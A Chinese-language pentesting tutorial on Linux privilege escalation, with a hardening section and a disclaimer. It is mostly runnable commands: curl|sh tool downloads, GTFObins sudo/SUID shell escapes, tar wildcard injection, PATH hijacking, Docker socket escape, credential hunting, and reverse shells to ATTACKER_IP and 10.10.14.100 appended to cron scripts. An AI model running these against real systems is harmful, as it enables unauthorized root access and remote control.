


## 一、概述

Linux提权（Privilege Escalation）是渗透测试中从低权限Shell提升至root的关键环节。本篇系统梳理信息收集清单、自动化工具使用、手动与自动化对比分析，并提供可操作的提权决策树。

```
低权限Shell → 信息收集 → 路径分析 → 漏洞利用 → Root Shell
```

## 二、信息收集清单

充分的信息收集是提权成功的前提。以下按优先级排列各检查项。

### 2.1 系统基本信息

```bash
uname -a; cat /etc/os-release; cat /proc/version
id; whoami; groups
sudo -l                           # 最重要的一项
cat /etc/passwd | grep -v nologin # 可登录用户
```

### 2.2 进程与计划任务

```bash
ps aux | grep root                # root进程
ps -ef --forest                   # 树状进程关系
crontab -l; cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /var/spool/cron/
systemctl list-timers --all       # systemd定时器
```

### 2.3 网络与服务

```bash
ip addr; ss -tulnp; arp -a
systemctl list-units --type=service --state=running
netstat -tulnp 2>/dev/null
cat /etc/hosts
```

### 2.4 SUID / SGID 文件

```bash
find / -perm -4000 -type f 2>/dev/null   # SUID
find / -perm -2000 -type f 2>/dev/null   # SGID
# 已知可用于提权的SUID：bash, python, find, vim, less, nmap(旧版)等
```

### 2.5 Capabilities

```bash
getcap -r / 2>/dev/null
# 关注 cap_setuid, cap_chown, cap_sys_ptrace, cap_sys_module
```

### 2.6 可写文件与敏感信息

```bash
find / -writable -type f 2>/dev/null | grep -v /proc
find /etc/ -writable -type f 2>/dev/null
grep -r "password" /etc/ 2>/dev/null | head -20
find / -name "id_rsa" -o -name "id_dsa" 2>/dev/null
cat ~/.bash_history 2>/dev/null | tail -50
```

### 2.7 已安装软件与编译器

```bash
dpkg -l 2>/dev/null || rpm -qa 2>/dev/null
which gcc cc python python3 perl php ruby
```

## 三、自动化提权工具

### 3.1 LinPEAS

LinPEAS 是 PEASS-ng 套件中的核心枚举脚本，社区使用最广泛。

```bash
# 直接执行
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# 上传后执行
chmod +x linpeas.sh
./linpeas.sh -a   # 全量扫描
./linpeas.sh -s   # 加速模式（跳过耗时项）
```

输出解读：**Red/Yellow** 高亮项95%为提权向量，优先关注；使用 `grep -E "Red|Yellow|CVE|95%|Interesting"` 提取高价值行。

### 3.2 lse.sh (Linux Smart Enumeration)

```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
chmod +x lse.sh
./lse.sh -l 1   # 仅显示高危和重要发现
./lse.sh -l 0   # 仅显示高危发现
```

### 3.3 pspy — 进程监控

pspy 无需root权限即可监控所有进程，用于发现cron触发的进程、捕获命令行密码、观察短期运行的脚本。

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64 -pf -i 1000   # 每秒扫描，显示完整命令行
# 典型应用：后台运行5-10分钟，捕获定时任务和敏感命令
```

### 3.4 其他辅助工具

```bash
# LinEnum - 经典枚举脚本
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
./LinEnum.sh -t

# traitor - 自动利用Gtfobins路径提权
wget https://github.com/liamg/traitor/releases/latest/download/traitor-amd64
./traitor-amd64 -a
```

## 四、常见提权路径详解

### 4.1 内核漏洞

```bash
# Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
./linux-exploit-suggester.sh
# 经典漏洞：DirtyCow(CVE-2016-5195), DirtyPipe(CVE-2022-0847), PwnKit(CVE-2021-4034)
# 利用内核漏洞可能触发系统崩溃，生产环境需谨慎
```

### 4.2 Sudo配置不当

```bash
sudo -l
# 示例可利用配置 (详见 https://gtfobins.github.io/)
# (root) NOPASSWD: /usr/bin/vim    → sudo vim -c ':!/bin/bash'
# (root) NOPASSWD: /usr/bin/find   → sudo find . -exec bash \;
# (root) NOPASSWD: /usr/bin/less   → sudo less /etc/hosts → !bash
# (root) NOPASSWD: /usr/bin/python → sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

### 4.3 SUID二进制

```bash
# 发现SUID文件后可逐一在Gtfobins查找利用方法
find / -perm -4000 -type f 2>/dev/null | while read f; do echo "→ $f"; done
# 常见利用：
/usr/bin/find . -exec /bin/bash -p \;
/usr/bin/python3 -c 'import os; os.execl("/bin/bash","bash","-p")'
```

### 4.4 Capabilities提权

```bash
getcap -r / 2>/dev/null
# cap_setuid+ep: 可调用setuid(0)
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# cap_sys_ptrace+ep: 可注入root进程
# cap_dac_read_search+ep: 可读取任意文件（如/etc/shadow）
```

### 4.5 计划任务滥用

```bash
# 若root的cron脚本全局可写
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /opt/scripts/backup.sh

# 通配符注入（适用于调用tar、rsync等命令的cron任务）
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /path/to/--checkpoint=1
echo '' > /path/to/--checkpoint-action=exec=sh\ exploit.sh

# 使用pspy发现计划任务和命令行参数中的密码
./pspy64 -pf -i 1000
```

### 4.6 PATH劫持

```bash
# 场景：某脚本以root执行但使用相对路径调用命令（如ping、wget）
echo $PATH
export PATH=/tmp:$PATH
echo '/bin/bash -p' > /tmp/ping && chmod +x /tmp/ping
# 当该脚本执行ping时，实际调用/tmp/ping，获得root shell
```

### 4.7 Docker容器逃逸

```bash
# 检查是否在容器中
cat /proc/1/cgroup | grep -i docker
ls -la /.dockerenv 2>/dev/null

# docker.sock逃逸
ls -la /var/run/docker.sock     # 若可访问
docker run -it -v /:/host alpine chroot /host bash

# 特权模式逃逸：直接挂载宿主机磁盘 fdisk -l → mount /dev/sda1 /mnt
```

## 五、自动化 vs 手动分析



| 维度 | 自动化 (LinPEAS等) | 手动分析 |
|------|-------------------|----------|
| 速度 | 快 (1-5分钟) | 慢 (依赖经验) |
| 覆盖面 | 全面 | 可能遗漏 |
| 误报率 | 偏高 | 低 |
| 落地痕迹 | 大 | 小 |
| 学习价值 | 低 | 高 |
| OPSEC | 弱 (易被EDR拦截) | 强 |
| 适用场景 | CTF/实验/快速评估 | 红队/实战渗透 |

**推荐策略：** 先手动5分钟（`sudo -l` → SUID → crontab → 内核版本），若未果则运行LinPEAS，同时让pspy后台监控。手动优先 + 自动化补充 + 动态监控并行。

## 六、提权决策树



决策优先级：**sudo > SUID > crontab > 内核 > Capabilities > PATH > Docker > 凭据泄露**

## 七、实战流程示例

```bash
# === Step 1: 快速手动检查 (2分钟) ===
id; sudo -l; uname -a
find / -perm -4000 -type f 2>/dev/null
cat /etc/crontab && crontab -l

# === Step 2: 若sudo -l 返回可利用项 ===
# (root) NOPASSWD: /usr/bin/find
sudo find . -exec /bin/bash \;

# === Step 3: 若SUID发现python3 ===
/usr/bin/python3 -c 'import os; os.execl("/bin/bash","bash","-p")'

# === Step 4: 若crontab有可写脚本 ===
echo 'bash -i >& /dev/tcp/10.10.14.100/4444 0>&1' >> /opt/scripts/backup.sh
# 等待cron触发，收到反向shell

# === Step 5: 并行运行pspy ===
# 另开终端上传pspy64
./pspy64 -pf -i 1000 > /tmp/pspy.log 2>&1 &
# 5分钟后分析日志中的UDP/COMMAND事件
cat /tmp/pspy.log | grep -E "CMD|UID=0"
```

## 八、防御加固建议

1. **sudo最小化**：避免 `NOPASSWD` + 交互式程序；sudoers.d 细分权限
2. **SUID审计**：定期审查SUID文件，移除不必要项 (`chmod -s`)
3. **cron安全**：确保脚本不可被非root写入，命令使用绝对路径
4. **内核更新**：保持最新稳定版内核，及时修补提权漏洞
5. **容器安全**：禁用特权模式，不挂载docker.sock，启用seccomp/AppArmor
6. **监控告警**：对 `/tmp`、`/dev/shm` 中新可执行文件、异常SUID创建设置告警

## 九、常用命令速查

```bash
# 信息收集一行化
uname -a; id; sudo -l; crontab -l; cat /etc/crontab
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ss -tulnp; ip addr | grep inet

# 工具一键下载
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
curl -L https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64 -o pspy64

# Gtfobins常用快速利用
# sudo vim -c ':!/bin/bash'
# sudo find . -exec /bin/bash \;
# python3 -c 'import os; os.execl("/bin/bash","bash","-p")'  (SUID python)
# find . -exec /bin/bash -p \;  (SUID find)
```

## 十、总结

Linux提权的本质是对系统配置缺陷的系统性挖掘。成功要素：

1. **全面信息收集** — 不遗漏任何配置弱点
2. **精准工具运用** — LinPEAS扫描 + pspy监控 + Gtfobins利用验证
3. **清晰决策路径** — 按优先级排查：sudo > SUID > crontab > 内核 > Capabilities > PATH > Docker > 凭据

推荐实践：5分钟手动优先 → LinPEAS自动补充 → pspy并行监控，在效率与隐蔽性之间取得最佳平衡。

> **免责声明：** 本文所述技术仅供安全研究与授权的渗透测试。未经授权攻击他人系统属违法行为。读者须在合法合规环境下学习实践，作者不对任何滥用行为承担责任。

---
**参考资源：**

- [Gtfobins](https://gtfobins.github.io/) - [PEASS-ng](https://github.com/peass-ng/PEASS-ng) - [pspy](https://github.com/DominicBreuker/pspy)
- [PayloadsAllTheThings Linux Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [HackTricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
